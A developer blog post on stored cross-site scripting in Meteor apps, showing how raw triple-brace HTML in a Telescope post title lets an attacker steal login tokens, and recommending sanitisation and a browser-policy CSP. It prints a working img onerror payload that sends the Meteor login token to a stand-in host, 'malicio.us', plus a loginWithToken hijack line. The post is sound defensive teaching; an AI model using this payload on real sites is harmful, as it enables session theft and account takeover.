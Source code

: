 ```yaml
---
layout: post
title:  "Hijacking Meteor Accounts With XSS"
titleParts: ["Hijacking Meteor Accounts", "With XSS"]
excerpt: "Cross Site Scripting attacks are especially dangerous in Meteor applications. Watch how an XSS vulnerability can lead to privilege escalation."
author: "Pete Corey"
date:   2015-09-07
tags: ["Javascript", "Meteor", "Security", "XSS"]
---
```


You've probably heard the term "XSS", or [cross-site scripting](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting), floating around the Meteor community. You've probably also heard that the <code class="language-*">browser-policy</code> package prevents XSS. Great! But... What is XSS?

Let's pretend that we've built an awesome new [Telescope](https://github.com/TelescopeJS/Telescope) application, and we've decided to get a little radical with our design. We've given our users the ability to embed images in their post titles! Our custom <code class="language-javascript">post_title</code> template looks something like this:

<pre class="language-markup"><code class="language-markup">&lt;template name="custom_post_title"&gt;
  &lt;h3 class="post-title &#123;&#123;moduleClass&#125;&#125;"&gt;
    &lt;a href="&#123;&#123;this.getLink&#125;&#125;"&gt;&#123;&#123;&#123;title&#125;&#125;&#125;&lt;/a&gt;
  &lt;/h3&gt;
&lt;/template&gt;
</code></pre>

Great! Now our users can use <code class="language-markup">&lt;img&gt;</code> tags to embed pictures directly in their post titles. There's absolutely nothing that go wrong here, right? Well...

## The Dangers of XSS

This change has actually exposed our application to a particularly dangerous form of cross-site scripting; [Stored XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)#Stored_XSS_Attacks). We've given users the ability to enter potentially malicious markup in their titles. Check out this example title:

<pre class="language-markup"><code class="language-markup">&lt;img src="fakeurl"
     onerror="$.get('//www.malicio.us/'+localStorage['Meteor.loginToken'])"
     alt="Cats suck!"&gt;
</code></pre>

Now, imagine that the bad person who posted this title has a simple web server running on <code class="language-*">www.malicio.us</code> listening for and logging any <code class="language-*">GET</code> requests it recieves. After a few innocent users stumble across this post on our Telescope application, their sensitive login tokens would be pulled from their local storage and sent to <code class="language-*">malicio.us</code>. The <code class="language-*">malicio.us</code> web logs would look something like this:

<pre class="language-bash"><code class="language-bash">GET http://www.malicio.us/g8Ri6DxKc3lSwqnYxHCJ0xE-XjMPf3jX-p_xSUPnN-D
GET http://www.malicio.us/LPPp7Tdb_qveRwa7-dLeCAxpqpc9oYM53Gt0HG6kwQ5
GET http://www.malicio.us/go9olSuebBjfQQqTrL-86d_LlfcctG848r7dBhW_kCL
</code></pre>

The attacker who posted the malicious title could easily steal any of these active sessions by navigating to our Meteor application and running the following code in their browser console:

<pre class="language-javascript"><code class="language-javascript">Meteor.loginWithToken("g8Ri6DxKc3lSwqnYxHCJ0xE-XjMPf3jX-p_xSUPnN-D");
</code></pre>

And just like that, a user's account has been stolen.

<hr/>

The crux of the issue here is that we're using a [triple-brace tag](https://github.com/meteor/meteor/tree/devel/packages/spacebars#triple-braced-tags) to insert raw HTML directly into the DOM. Without any kind of sanitation or validation, we have no way of knowing that users aren't providing us with malicious markup that will potentially run on all of our users' browsers.

In this case, the attacker simply grabbed the current user's `loginToken` out of local storage with the intent of hijacking their account. XSS attacks can be far more sophisticated, though. They can be as subtle as silently calling methods on behalf of the client, and as lavish as constructing entire user interface components designed to extract sensitive information (credentials, credit card numbers, etc…) from users.

Your Meteor application is not solely exposed to cross-site scripting through the use of triple-brace tags. Malicious HTML/JavaScript can be introduced into your [Blaze](https://www.meteor.com/blaze)-powered application through the use of [SafeString](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#safestring), [dynamic attributes](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#dynamic-attributes), and dynamic [attribute values](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#in-attribute-values), to name a few. When using these techniques with user-provided data, be especially sure that you're properly sanitizing or validating the data before sending it into the DOM.

## Browser-policy as a safety net

The [browser-policy](https://github.com/meteor/meteor/tree/devel/packages/browser-policy) package enables your Meteor application to establish its [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/Security/CSP/Introducing_Content_Security_Policy), or CSP. The goal of CSP is to prevent unexpected JavaScript from running on your page.

However, <code class="language-*">browser-policy</code> package is not a turnkey solution to our XSS problem. It requires some configuration to be especially useful. David Weldon has an [excellent guide](https://dweldon.silvrback.com/browser-policy) outlining the benefits of using <code class="language-*">browser-policy</code> and how to go about tuning it to your application. For our application, we would want to make sure that we're disallowing inline scripts:

<pre class="language-javascript"><code class="language-javascript">BrowserPolicy.content.disallowInlineScripts();
</code></pre>

By disallowing inline scripts, the JavaScript found in the <code class="language-javascript">onerror</code> of the image tag would not be allowed to run. This would effectively stop the XSS attack dead in its tracks.

While CSP is an amazing tool that can be used to harden your application against attackers, I believe that it should be considered your last line of defense. You should always try to find and eradicate all potential sources of cross-site scripting, rather than relying on the <code class="language-*">browser-policy</code> to prevent it. There is always the chance that you may have misconfigured your <code class="language-*">browser-policy</code>. On top of that, Content Security Policy [isn't supported on older browsers](http://caniuse.com/#feat=contentsecuritypolicy).

## Final Thoughts

Keep in mind that this was just a single example of cross-site scripting in action. Attackers can use a variety of other techniques and methods in order to achieve their nefarious intents.

The truth is, XSS attacks are relatively rare in Meteor applications. The Meteor team made a great decision when going with a secure default for value interpolation ([double-brace tags](https://github.com/meteor/meteor/tree/devel/packages/spacebars#double-braced-tags)). However, there are [still scenarios](http://blog.east5th.co/2015/04/03/black-box-meteor-triple-brace-xss/) where XSS can rear its ugly head in your Meteor application. In addition to using and configuring `browser-policy`, you should try to identify and fix any potential areas where cross-site scripting may occur.
